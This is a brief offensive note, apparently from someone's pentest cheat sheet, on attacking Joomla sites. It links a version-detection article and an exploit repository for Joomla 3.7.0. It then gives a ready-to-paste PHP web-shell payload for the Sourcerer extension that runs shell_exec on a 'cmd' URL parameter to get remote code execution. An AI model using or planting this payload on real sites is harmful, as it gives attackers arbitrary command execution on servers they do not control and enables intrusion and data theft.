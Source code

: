 # joomla 
https://www.zyxware.com/articles/5532/how-to-know-the-version-of-joomla-site-without-admin-access
## 3.7.0 
https://github.com/stefanlucas/Exploit-Joomla
## RCE 
sourcerer --> `{source}<?php echo "<pre>".shell_exec($_GET["cmd"])."</pre>"; ?> {/source}`